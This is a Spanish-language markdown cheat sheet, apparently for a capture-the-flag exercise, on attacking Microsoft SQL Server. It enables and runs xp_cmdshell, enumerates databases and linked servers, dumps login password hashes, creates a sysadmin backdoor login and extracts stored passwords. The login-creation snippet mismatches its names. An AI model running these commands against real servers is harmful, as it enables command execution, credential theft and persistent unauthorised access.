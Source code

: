 ```
enable_xp_cmdshell
xp_cmdshell whoami
xp_cmdshell ipconfig
```

### Consultas (Ejemplos prácticos)

- **Obtener bases de datos**:
    ```sql
    SELECT name FROM master.dbo.sysdatabases; 
    ```
    Este comando consulta los nombres de todas las bases de datos disponibles en el servidor.

- **Obtener nombres de tablas en una base de datos específica**:
    ```sql
    SELECT * FROM Biblioteca.INFORMATION_SCHEMA.TABLES; 
    ```
    Este comando muestra información sobre todas las tablas en la base de datos 'Biblioteca'.

- **Listar servidores vinculados**:
    ```sql
    EXEC sp_linkedservers;
    SELECT * FROM sys.servers;
    ```
    Estos comandos muestran información sobre los servidores vinculados al servidor actual.

- **Listar usuarios**:
    ```sql
    SELECT sp.name AS login, sp.type_desc AS login_type, sl.password_hash, sp.create_date, sp.modify_date, 
           CASE WHEN sp.is_disabled = 1 THEN 'Inhabilitado' ELSE 'Habilitado' END AS estado 
    FROM sys.server_principals sp 
    LEFT JOIN sys.sql_logins sl ON sp.principal_id = sl.principal_id 
    WHERE sp.type NOT IN ('G', 'R') 
    ORDER BY sp.name;
    ```
    Esta consulta muestra una lista de los usuarios en el servidor, junto con información como el tipo de inicio de sesión, el hash de la contraseña, las fechas de creación y modificación, y el estado del inicio de sesión.

- **Crear un usuario con privilegios de sysadmin**:
    ```sql
    CREATE LOGIN pirata WITH PASSWORD = 'P@ssword456!';
    sp_addsrvrolemember 'hacker', 'sysadmin';
    ```
    Este comando crea un nuevo usuario llamado 'hacker' con la contraseña 'P@ssword456!', y luego le otorga el rol de 'sysadmin'.

- **Seleccionar un dato específico**:
    ```sql
    USE Biblioteca;
    SELECT [nombre], [contrasena]
    FROM [usuarios].[dbo].[cuentasdev]
    WHERE [nombre]='CTF';
    ```
    En este caso, primero seleccionamos la base de datos 'Biblioteca' con el comando `USE`. Luego, esta consulta selecciona la columna 'nombre' y 'contrasena' de la tabla 'cuentasdev' en la base de datos 'usuarios', pero sólo para los registros donde el 'nombre' es igual a 'CTF'. 

